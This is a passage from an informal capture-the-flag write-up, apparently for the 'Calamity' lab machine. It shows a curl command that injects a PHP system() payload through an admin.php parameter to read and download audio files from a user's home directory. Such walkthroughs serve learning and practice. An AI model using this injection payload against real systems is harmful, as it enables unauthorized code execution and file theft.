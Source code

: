 ```sh
md5sum recov.wav
```

![](/Linux/Linux-Hard/Calamity/Screenshots/md51.png)

so when i did that i was not copyint the wohole of the file so i decide to do this instead

```sh
curl -s -G http://10.10.10.27/admin.php --data-urlencode "html=<?php system(\"cat /home/xalvas/recov.wav\"); ?>" --cookie adminpowa=noonecares | sed -e '1,/<\/body><\/html>/ d' > recov.wav
```

![](/Linux/Linux-Hard/Calamity/Screenshots/md52.png)


so lets do it to the other audio file `rick.wav` and  

![](/Linux/Linux-Hard/Calamity/Screenshots/cp.png)

so after copying them to my local shared folder am going to listen for them in Audacity to check what i can find 
